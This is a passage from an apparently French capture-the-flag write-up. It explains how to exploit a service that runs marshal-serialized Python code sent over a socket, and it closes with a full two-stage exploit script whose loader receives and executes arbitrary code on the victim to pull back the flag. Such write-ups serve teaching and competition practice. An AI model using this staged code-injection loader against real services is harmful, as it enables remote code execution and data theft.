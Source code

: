Il suffit d'envoyer la chaine `serialized_base64` et d'attendre ensuite de réceptionner le `flag` et le `flag_id` :

    :::python
    s.send(serialized_base64)
    string = s.recv(1024)
    f, fid = string.split('#')
    print "flag : {} / flag_id : {}".format(f, fid)

Cette technique suffit donc pour récupérer le flag en mémoire, mais peut potentiellement être beaucoup plus puissante puisqu'on peut injecter ce que bon nous semble. Cependant, notre créativité est limitée à 1024 caractères à cause du "`data = clientsock.recv(BUFSIZ)`". On peut dépasser cette limitation en refaisant des `recv` en boucle pour à nouveau récupérer le code d'une fonction à exécuter.

Voici l'exploit global utilisant cette technique et tout ce qui a été décrit auparavant :

    :::python
    class Exploit():

        def execute(self, ip, port, flag_id2):

            def brute():
                from random import shuffle
                copie = [1,1,4,5,1,6,9,7,6,8,9,1,7,3,1,7,9,2,5,3,3,1,2,8,1,3,5,2,2,2,4,1,9,1,6,2,8,6,2,1,1,2]
                shuffle(copie)
                return ','.join((str(i) for i in copie))

            def func_code(which):
                import base64
                import marshal
                # les fonctions a executer chez la victime ('s' == le socket)
                if which == 1:
                    def f(s):
                        s.send(":)")
                        data = ""
                        while not data.endswith("OKAYDONE"):
                            data += s.recv(1024)
                        import base64, marshal, types
                        data = marshal.loads(base64.b64decode(data[:-8]))
                        types.FunctionType(data, globals(), "callback")(s)
                elif which == 2:
                    def f(s):
                        # put your nasty code here
                        s.send("{}#{}".format(flag, flag_id))
                function_serialized = base64.b64encode(marshal.dumps(f.func_code))
                return function_serialized

            import socket
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((ip, port))
            print ">>>", s.recv(1024)  # blabla
            s.send(brute())
            print ">>>", s.recv(1024)  # blabla
            s.send(func_code(1))
            print ">>>", s.recv(1024)  # notre blabla
            s.send(func_code(2))
            s.send("OKAYDONE")
            # maintenant notre code s'execute...
            string = s.recv(1024)  # et nous renvoie un flag
            f, fid = string.split('#')
            print "flag : {} / flag_id : {}".format(f, fid)